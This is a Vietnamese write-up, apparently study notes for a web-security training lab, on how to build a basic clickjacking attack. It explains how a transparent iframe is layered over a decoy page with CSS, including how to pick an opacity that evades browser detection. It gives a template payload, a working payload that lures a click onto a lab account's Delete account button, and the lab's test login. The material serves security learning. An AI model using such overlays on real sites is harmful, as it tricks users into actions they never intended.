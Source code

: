 # How to construct a basic clickjacking attack? 

Các cuộc tấn công Clickjacking sử dụng CSS để tạo và thao tác các layers. Kẻ tấn công kết hợp trang web mục tiêu như một **iframe layer** được phủ lên trên trang web giải mã. Một ví dụ sử dụng style tag và style parameters như sau:

    <head>
        <style>
            #target_website {
                position:relative;
                width:128px;
                height:128px;
                opacity:0.00001;
                z-index:2;
                }
            #decoy_website {
                position:absolute;
                width:300px;
                height:400px;
                z-index:1;
                }
        </style>
    </head>
    ...
    <body>
        <div id="decoy_website">
        ...decoy web content here...
        </div>
        <iframe id="target_website" src="https://vulnerable-website.com">
        </iframe>
    </body>

# How to construct a basic clickjacking attack - Continued

Clickjacking là một kiểu tấn công mà kẻ tấn công lừa người dùng thực hiện một hành động trên một trang web khác (trang web mục tiêu) mà họ không hề hay biết. Đây là cách mà một cuộc tấn công clickjacking cơ bản được xây dựng:

1. **Nhúng trang web mục tiêu**:

    Kẻ tấn công nhúng trang web mục tiêu (trang muốn bị tấn công) vào bên trong một iframe ẩn. Iframe này chứa các hành động mà kẻ tấn công muốn người dùng vô tình thực hiện (ví dụ: nhấn vào một nút nào đó).

2. **Định vị chính xác**:

    - Iframe được định vị một cách cẩn thận để các phần tử tương tác (ví dụ: nút, liên kết) của nó nằm chính xác ở vị trí chồng lên giao diện của trang web giả mạo do kẻ tấn công tạo ra.

    - Kẻ tấn công sử dụng các giá trị CSS như **width**, **height**, và vị trí (cả tuyệt đối và tương đối) để đảm bảo iframe luôn chồng đúng vị trí bất kể kích thước màn hình, trình duyệt, hay nền tảng sử dụng.

3. **Thứ tự lớp hiển thị (z-index)**:

    Thuộc tính z-index được sử dụng để điều chỉnh thứ tự xếp chồng giữa iframe và các layer của trang web giả mạo, đảm bảo iframe nằm trên các lớp cần thiết.

4. **Làm mờ hoặc ẩn iframe**:

    - Thuộc tính *opacity* của iframe được đặt về 0.0 (hoặc gần 0.0) để nội dung iframe trở nên trong suốt, khiến người dùng không nhìn thấy nó.

    - Một số trình duyệt (ví dụ: Chrome từ phiên bản 76 trở đi) có cơ chế bảo vệ clickjacking, sử dụng phát hiện độ trong suốt của iframe. Nhưng các trình duyệt khác, như Firefox, có thể không có bảo vệ này.

    - Kẻ tấn công chọn giá trị *opacity* phù hợp để đạt được hiệu quả mong muốn mà không kích hoạt cơ chế bảo vệ của trình duyệt.

# Lab: Basic clickjacking with CSRF token protection
![img](1)

### Web page
![img](2)

### Solution

Log in vào account được cấp wiener:peter

![img](3)

Cần tạo payload có dạng như sau để phủ lên web page: 

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

Thay đổi thành: 

    <style>
        iframe {
            position:relative;
            width: 1000px;
            height: 700px;
            opacity: 0.1;
            z-index: 2;
        }
        
        div {
          position: absolute;
          top: 515px;
          z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a7400e60385881180282604000b0020.web-security-academy.net/my-account"></iframe>

Cần điều chỉnh để Test me và Delete account button lồng với nhau. Go to exploit server và copy payload vào phần body: 

![img](4)

Store và View exploit:

![img](5)


Solved the lab!

![img](6)







